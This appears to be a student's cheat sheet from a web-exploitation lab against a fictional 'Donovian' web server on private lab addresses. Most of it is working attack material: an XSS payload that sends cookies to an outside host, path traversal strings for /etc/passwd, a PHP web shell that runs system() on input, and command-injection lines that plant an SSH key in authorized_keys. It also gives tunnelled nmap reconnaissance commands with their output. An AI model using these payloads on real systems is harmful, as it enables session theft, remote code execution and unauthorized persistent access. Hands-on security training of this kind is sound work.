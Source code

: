     10.50.X.X/path/pathdemo.php
    10.50.X.X/cmdinjectdemo.php
________________________________________________________________________________________________________________
    <script>document.location="http://10.50.21.223:8000"+document.cookie;</script>
________________________________________________________________________________________________________________
## Server-Side injection
## Post method: 
    ../../../../../../ect/hosts
    ../../../../../../ect/passwd
________________________________________________________________________________________________________________
## Malicious File Upload: 
    <HTML><BODY>
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <?php
    if($_GET['cmd']) {
      system($_GET['cmd']);
      }
    ?>
    </pre>
    </BODY></HTML>
### 1: place to upload
### 2: access to upload
### 3: call to upload
________________________________________________________________________________________________________________
## Uploading SSH Key: 
    ; ls -la /users/home/directory                           #check if .ssh exists
    ; mkdir /users/home/directory/.ssh                       #make .ssh in users home folder if it does not exist
    ssh-keygen -t rsa -b 4096                                #creating ssh private and public keys
    cat ~/.ssh/id_rsa.pub                                    #copying public key to paste into below command
    ; echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys    #placing ssh key in directory
    ; cat /users/home/directory/.ssh/authorized_keys         #verifying the ssh key was emplaced
________________________________________________________________________________________________________________
# Scheme of Maneuver:
# >Jump Box
# ->T1:10.100.28.40
## Target Section:
## T1
## Hostname: Donovian_MI_websvr
## IP: 10.100.28.40
## OS: unknown
## Creds:unknown
## Last Known SSH Port: unknown
## PSP: Unknown
## Malware: Unknown
## Action: Conduct approved Web Exploitation techniques to collect intellegence.
________________________________________________________________________________________________________________
## SSH to your tunnel: 
    ssh -MS /tmp/jump student@10.50.25.229
________________________________________________________________________________________________________________
## New Pane set up a dynamic port forward: 
    ssh -S /tmp/jump jump -O forward -D9050
________________________________________________________________________________________________________________
## New Pane start scanning: 
    proxychains nmap -T4 -Pn 10.100.28.40
```
Nmap scan report for 10.100.28.40
Host is up (0.00059s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
4444/tcp open  krb524

Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds

```
________________________________________________________________________________________________________________
## Validate the ports found: 
    proxychains nc 10.100.28.40 80        #discovered http
    proxychains nc 10.100.28.40 4444      #discovered alt ssh
________________________________________________________________________________________________________________
## Set up port forward tunnel to connect to both of the ports above: 
    ssh -S /tmp/jump jump -O forward -L10001:10.100.28.40:80 -L10002:10.100.28.40:4444
________________________________________________________________________________________________________________
## Run firefox to access the http port discovered through the tunnel: 
    firefox http://127.0.0.1:10001
________________________________________________________________________________________________________________
## Next utilize scripts to gather more info: 
    ls /usr/share/nmap/scripts/ | grep http
```
http-enum.nse
```
    proxychains nmap -T4 -Pn 10.100.28.40 --script=http-enum.nse
```
Nmap scan report for 10.100.28.40
Host is up (0.00060s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-enum: 
|   /robots.txt: Robots file
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
4444/tcp open  krb524

Nmap done: 1 IP address (1 host up) scanned in 1.20 seconds

```
________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________


________________________________________________________________________________________________________________
